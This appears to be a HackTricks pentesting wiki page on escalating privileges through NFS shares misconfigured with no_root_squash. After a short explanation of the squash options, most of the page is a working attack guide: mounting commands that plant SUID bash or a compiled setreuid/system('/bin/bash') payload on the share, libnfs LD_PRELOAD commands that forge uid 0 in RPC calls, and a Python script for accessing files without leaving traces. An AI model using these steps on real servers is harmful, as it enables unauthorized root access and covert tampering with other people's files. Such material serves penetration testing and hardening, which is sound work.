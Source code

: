 {{#include ../../banners/hacktricks-training.md}}


# Squashing Basic Info

NFS will usually (specially in linux) trust the indicated `uid` and `gid` by the client conencting to access the files (if kerberos is not used). However, there are some configurations that can be set in the server to **change this behavior**:

- **`all_squash`**: It squashes all accesses mapping every user and group to **`nobody`** (65534 unsigned / -2 signed). Therefore, everyone is `nobody` and no users are used.
- **`root_squash`/`no_all_squash`**: This is default on Linux and **only squashes access with uid 0 (root)**. Therefore, any `UID` and `GID` are trusted but `0` is squashed to `nobody` (so no root imperonation is possible).
- **``no_root_squash`**: This configuration if enabled doesn't even squash the root user. This means that if you mount a directory with this configuration you can access it as root.

In the **/etc/exports** file, if you find some directory that is configured as **no_root_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

For more information about **NFS** check:

{{#ref}}
/network-services-pentesting/nfs-service-pentesting.md
{{#endref}}

# Privilege Escalation

## Remote Exploit

Option 1 using bash:
- **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder the **/bin/bash** binary and giving it **SUID** rights, and **executing from the victim** machine that bash binary.
    - Note that to be root inside the NFS share, **`no_root_squash`** must be configured in the server.
    - However, if not enabled, you could escalate to other user by copying the binary to the NFS share and giving it the SUID permission as the user you want to escalate to.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

Option 2 using c compiled code:
- **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it **SUID** rights, and **execute from the victim** machine that binary (you can find here some[ C SUID payloads](payloads-to-execute.md#c)).
    - Same restrictions as before

```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```

## Local Exploit

> [!NOTE]
> Note that if you can create a **tunnel from your machine to the victim machine you can still use the Remote version to exploit this privilege escalation tunnelling the required ports**.\
> The following trick is in case the file `/etc/exports` **indicates an IP**. In this case you **won't be able to use** in any case the **remote exploit** and you will need to **abuse this trick**.\
> Another required requirement for the exploit to work is that **the export inside `/etc/export`** **must be using the `insecure` flag**.\
> --_I'm not sure that if `/etc/export` is indicating an IP address this trick will work_--

## Basic Information

The scenario involves exploiting a mounted NFS share on a local machine, leveraging a flaw in the NFSv3 specification which allows the client to specify its uid/gid, potentially enabling unauthorized access. The exploitation involves using [libnfs](https://github.com/sahlberg/libnfs), a library that allows for the forging of NFS RPC calls.

### Compiling the Library

The library compilation steps might require adjustments based on the kernel version. In this specific case, the fallocate syscalls were commented out. The compilation process involves the following commands:

```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```

### Conducting the Exploit

The exploit involves creating a simple C program (`pwn.c`) that elevates privileges to root and then executing a shell. The program is compiled, and the resulting binary (`a.out`) is placed on the share with suid root, using `ld_nfs.so` to fake the uid in the RPC calls:

1. **Compile the exploit code:**

```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **Place the exploit on the share and modify its permissions by faking the uid:**

```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **Execute the exploit to gain root privileges:**

```bash
/mnt/share/a.out
#root
```

## Bonus: NFShell for Stealthy File Access

Once root access is obtained, to interact with the NFS share without changing ownership (to avoid leaving traces), a Python script (nfsh.py) is used. This script adjusts the uid to match that of the file being accessed, allowing for interaction with files on the share without permission issues:

```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
    try:
        uid = os.stat(filepath).st_uid
    except OSError as e:
        return get_file_uid(os.path.dirname(filepath))
    return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```

Run like:

```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```

{{#include ../../banners/hacktricks-training.md}}



